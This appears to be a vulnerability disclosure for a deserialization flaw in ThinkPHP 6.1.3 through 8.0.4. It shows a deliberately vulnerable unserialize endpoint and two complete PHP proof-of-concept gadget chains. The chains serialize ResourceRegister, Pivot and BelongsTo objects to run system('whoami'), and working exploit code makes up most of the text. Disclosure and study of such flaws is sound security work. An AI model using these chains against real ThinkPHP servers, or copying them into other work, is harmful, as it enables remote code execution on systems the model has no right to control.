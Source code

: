 ## Vulnerability description

A deserialization vulnerability in Thinkphp v6.1.3 to v8.0.4 allows attackers to execute arbitrary code.

By triggering the __call method of the Fetch class



## Affects Version



Thinkphp v6.1.3 to v8.0.4

## Vulnerability certificate

php8.0.2 thinkphp v8.0.0



First, add new deserialization endpoint in app\controller\Index.php, such as:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['lll']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

}
```



POC

```
<?php

namespace think\model\concern;

trait Attribute
{
    private $data = ["key" => ["key1" => "whoami"]];
    private $withAttr = ["key"=>["key1"=>"system"]];
    protected $json = ["key"];
}
namespace think;

abstract class Model
{
    use model\concern\Attribute;
    private $lazySave;
    protected $withEvent;
    private $exists;
    private $force;
    protected $table;
    protected $jsonAssoc;
    function __construct($obj = '')
    {
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->table = $obj;
        $this->jsonAssoc = true;
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}


namespace think\route;
use think\model\Pivot;
class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new Pivot(new Pivot());
    }
}


namespace think;
use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));
```



```java
<?php

namespace think\db;
class Fetch{

}

namespace think;
use think\model\Pivot;

abstract class Model
{

    private $data = [];
    private $withAttr = [];
    protected $json = [];
    protected $jsonAssoc = true;
    private $lazySave;
    protected $withEvent;
    private $exists;
    private $force;
    protected $table;
    protected $connection;
    function __construct()
    {
        $this->data["lll"]=["whoami"];
        $this->withAttr["lll"]=["system"];
        $this->json=["lll"];
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->jsonAssoc = true;

    }
}
namespace think\model\relation;
use think\db\Fetch;
use think\model\Pivot;

class BelongsTo{
    protected $query;
    protected $parent;
    protected $foreignKey;
    function __construct(){
        $this->query=true;
        $this->parent=new Fetch();
        $this->foreignKey=new Pivot();
    }

}

namespace think\model;

use think\Model;

class Pivot extends Model
{
}


namespace think\route;
use think\model\relation\BelongsTo;

class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    protected $db;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new BelongsTo();
    }
}


namespace think;
use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));

```

![image-20240912105247103](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240912105247103.png)
